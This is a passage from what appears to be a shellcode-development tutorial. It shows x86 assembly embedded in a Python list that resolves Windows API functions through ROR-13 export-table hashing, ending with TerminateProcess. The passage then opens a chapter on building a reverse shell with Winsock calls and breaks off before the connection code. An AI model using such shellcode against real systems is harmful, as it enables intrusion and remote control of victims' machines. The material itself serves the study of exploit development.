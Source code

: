 ```py
        "   add esi, ebx                        ;",  #   ESI = (VMA of the current symbol name)       

        "compute_hash:                           ", 
        "   xor eax, eax                        ;",  #   EAX = 0
        "   cdq                                 ;",  #   EDX = 0
        "   cld                                 ;",  #   Clear direction flag (DF)

        "compute_hash_again:                     ",
        "   lodsb                               ;",  #   Load the next byte from esi into al
        "   test al, al                         ;",  #   Check for NULL terminator
        "   jz compute_hash_finished            ;",  #   If the ZF is set, we've hit the NULL terminator
        "   ror edx, 0x0d                       ;",  #   Rotate edx 13 bits to the right
        "   add edx, eax                        ;",  #   Add the new byte to the accumulator
        "   jmp compute_hash_again              ;",  #   Next iteration

        "compute_hash_finished:                  ", 
        
        "find_function_compare:                  ",
        "   cmp edx, [esp+0x24]                 ;",  #   Compare hashes
        "   jnz find_function_loop              ;",  #   jump if it does not match
        "   mov edx, [edi+0x24]                 ;",  #   AddressOfNameOrdinals RVA
        "   add edx, ebx                        ;",  #   AddressOfNameOrdinals VMA
        "   mov cx, [edx+2*ecx]                 ;",  #   Extrapolate the function's ordinal
        "   mov edx, [edi+0x1c]                 ;",  #   AddressOfFunctions RVA
        "   add edx, ebx                        ;",  #   AddressOfFunctions VMA
        "   mov eax, [edx+4*ecx]                ;",  #   Get the function RVA
        "   add eax, ebx                        ;",  #   Get the function VMA
        "   mov [esp+0x1c], eax                 ;",
        
        "find_function_finished:                 ",
        "   popad                               ;",  #   Restore registers
        "   ret                                 ;",

        "resolve_symbols_kernel32:               ",
        push_terminateprocess_hash,                  #   TerminateProcess hash
        "   call dword ptr [ebp+0x04]           ;",  #   Call find_function
        "   mov [ebp+0x10], eax                 ;",  #   Save TerminateProcess address for later
]
```

## Reverse Shell

In this chapter, we will explore how to create a reverse shell.

Most of the required APIs are exported by ws2_32.dll. We first need to initialize the Winsock DLL using WSAStartup. This is followed by a call to WSASocketA to create the socket, and finally WSAConnect to establish the connection.

First of all, we need to convert the IP and Port to hexadecimal:
